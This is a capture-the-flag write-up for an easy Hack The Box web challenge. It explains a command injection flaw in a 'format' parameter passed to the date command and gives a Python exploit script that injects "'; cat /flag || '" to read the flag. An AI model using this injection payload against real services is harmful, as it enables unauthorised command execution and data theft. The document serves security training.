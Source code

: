 Challenge: KORP time <br>
Category: Web <br>
Difficulty: easy <br>
Vulnerability: Command injection (format parameter)
<br>
<h1>Description</h1> The application exposes an endpoint that accepts a “format” query parameter and passes it directly into a shell call to date, without any sanitization. By injecting a shell-breaking sequence into the format string, you can chain arbitrary commands. In this case, sending '; cat /flag || ' causes the server to dump the contents of /flag* into the HTTP response.

<ul> <li>Save the following Python script as <code>exploit.py</code>: <pre><code>import sys import requests import re

url = sys.argv[1] url_flag = f"http://{url}/"

params = { 'format': "'; cat /flag || '" }

r = requests.get(url_flag, params=params) flag = re.search(r"HTB\{.*?\}", r.text)

if flag: print(flag.group(0)) </code></pre> </li>

<li>Run the exploit against the target host: <pre><code>python3 exploit.py &lt;target_ip&gt;</code></pre> </li>

<li>The script sends a GET request to: <pre><code>http://&lt;target_ip&gt;/?format='; cat /flag || '</code></pre> </li>

<li>The application invokes <code>date</code> unsafely, allowing <code>cat /flag</code> to execute and embed the flag in the response body.</li>

<li>The script then applies a regex (<code>HTB\{.*?\}</code>) to extract the flag from the response and prints it to stdout.</li> </ul>
